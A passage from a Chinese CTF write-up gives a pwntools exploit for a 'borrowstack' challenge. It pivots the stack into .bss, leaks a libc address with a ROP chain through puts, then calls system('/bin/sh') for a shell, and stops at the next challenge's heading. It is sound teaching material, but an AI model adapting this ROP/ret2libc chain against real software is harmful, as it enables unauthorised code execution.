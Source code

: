 ```

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,stop=False):
    gdb.attach(sh)
    if stop :
        raw_input()

if __name__ == "__main__":
    sh = get_sh()
    # get_gdb(sh)
    payload  = 'A' * 0x60 + p64(0x0000000000601080 + 0x28) + p64(0x0000000000400699)
    sh.recvuntil('elcome to Stack bank,Tell me what you want')
    sh.send(payload)
    payload  = 'x00' * 0x30
    payload += p64(0x0000000000400590) + p64(borrowstack.bss()+0x500)
    payload += p64(0x0000000000400703) + p64(borrowstack.got['__libc_start_main'])
    payload += p64(borrowstack.plt['puts'])
    payload += p64(0x0000000000400703) + p64(0)
    payload += p64(0x0000000000400701) + p64(0x0000000000601108) + p64(0x0000000000601108)
    payload += p64(borrowstack.plt['read'])
    sh.recvuntil('Done!You can check and use your borrow stack now!')
    # get_gdb(sh)
    sh.send(payload)
    libc_base = get_address(sh,'We get libc address is ','x0A','x0A',-libc.symbols['__libc_start_main'])
    payload  = p64(0x00000000004004c9)* 0x50
    payload += p64(0x0000000000400703) + p64(libc_base + libc.search('/bin/sh').next())
    payload += p64(libc_base + libc.symbols['system'])
    sh.send(payload)
    sh.interactive()
    flag=get_flag(sh)
    log.success('The flag is '+flag)
```



## 0x08 ThirdDay_Signin

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E4%BF%A1%E6%81%AF"></a>题目信息

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-102916.png)

仅开启Canary和NX。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析
